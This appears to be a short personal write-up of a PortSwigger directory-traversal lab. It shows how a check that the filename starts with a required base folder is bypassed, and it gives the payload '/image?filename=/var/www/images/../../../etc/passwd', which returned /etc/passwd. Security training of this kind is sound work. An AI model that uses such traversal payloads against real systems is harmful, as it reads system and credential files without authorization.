 ```yaml
---
image: "img/Portswigger/directory-traversal.png"
---
```


If an application requires that the user-supplied filename must start with the expected base folder, such as `/var/www/images`, then it might be possible to include the required base folder followed by suitable traversal sequences. For example:

`filename=/var/www/images/../../../etc/passwd`

## Challenge

--> This lab requirees the filename must start with the base directory but we still can do the directory traversal.

I used this payload :

```bash
/image?filename=/var/www/images/../../../etc/passwd
```

--> And got the content of `/etc/passwd`

![](Attachments/Pastedimage20220122122427.png)
